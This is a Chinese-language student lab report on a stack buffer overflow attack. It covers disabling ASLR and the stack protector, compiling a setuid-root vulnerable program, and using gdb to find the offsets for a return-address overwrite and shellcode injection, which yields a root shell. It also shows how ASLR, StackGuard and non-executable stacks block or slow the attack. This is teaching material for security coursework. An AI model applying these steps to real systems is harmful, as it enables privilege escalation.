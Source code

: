 # 缓存溢出攻击文档

## 准备知识

**关闭地址空间的随机性**

```bash
sudo sysctl -w kernel.randomize_va_space=0
```

**关闭Stack Guard Protection Scheme**

```
gcc -fno-stack-protector example.c
```

**使用Executable Stack**

```bash
gcc -z execstack -o test test.c
# gcc -z noexecstack -o test test.c
```

```bash
sudo gcc -o stack -z execstack -fno-stack-protector stack.c -g
sudo chmod 4755 stack
```

**找到malicious程序的入口与返回地址**

```bash
gdb stack #注意主要在编译stack.c时加上-g符号
b main #设置断点
r #执行
p /x &str #str地址
i r $esp #esp的值

b bof
c #进入bof程序中
p /x &buffer #buffer的地址
i r $ebp
```

使用上述的信息，可以知道malicious程序的位置为`&str+100`或者使用`$esp+100`

返回地址的偏移为`&buffer-$ebp+4`

最终添加到`exploit.c`的内容如下

```cpp
strcpy(buffer+0x18,"\x44\xee\xff\xbf");
strcpy(byffer+400,shellcode);
```

## 实验结果

### Task 1: Exploiting the Vulnerability

准备过程如下

```bash
sudo sysctl -w kernel.randomize_va_space=0
sudo gcc -o stack -z execstack -fno-stack-protector stack.c -g
sudo chmod 4755 stack
gcc -o exploit exploit.c
```

![1554897641295](Lab3/1554897641295.png)

可见攻击成功得到root shell

### Task 2: Address Randomization

```bash
sudo sysctl -w kernel.randomize_va_space=2
sh -c "while [ 1 ]; do ./stack; done;"
```

这样地址随机化之后，需要大概一分钟的运行时间才能成功，

![1554897857854](Lab3/1554897857854.png)

![1554897801750](Lab3/1554897801750.png)

地址随机化是使进程的地址空间随机化，将进程的mmap基址，stack和vdso页面地址在每次运行时不固定。这样一来进程在运行时的地址将变得跟踪困难，并且攻击程序较难获得确切的地址来填入badfile使得跳转到自己攻击的shellcode代码。通过多次运行可以增加地址命中的概率但是也会相应地增加被发现的风险。

### Task 3: Stack Guard

```bash
sysctl -w kernel.randomize_va_space=0
sudo gcc -o stack -z execstack stack.c
sudo chmod u+s stack
./stack
```

![1554898129602](Lab3/1554898129602.png)

执行失败，因为检测到了stack smash，这是Stack Guard起到的作用，当检测到这个违规就会停止执行了。

### Task 4: Non-executable Stack

```
gcc -o stack -fno-stack-protector -z noexecstack stack.c
sudo chmod u+s stack
./stack
```

![1554898318720](Lab3/1554898318720.png)

这是因为当不能在栈内执行程序时，shellcode就不能执行了。

## 实验小结

1. 本实验Task1主要要点是使用gdb追踪程序，并且根据程序的执行期间栈的工作方式来精心设置badfile的内容。需要完成两点，一是malicious程序的入口地址，二是bof程序的返回地址。这两点都可以通过gdb调试得到
2. Task2可能需要挺长时间的，所以可以通过增大buffer和str的大小来提高概率，注意其他的区域都要用NOP填充，而且malicous程序最好放在buffer的最末尾。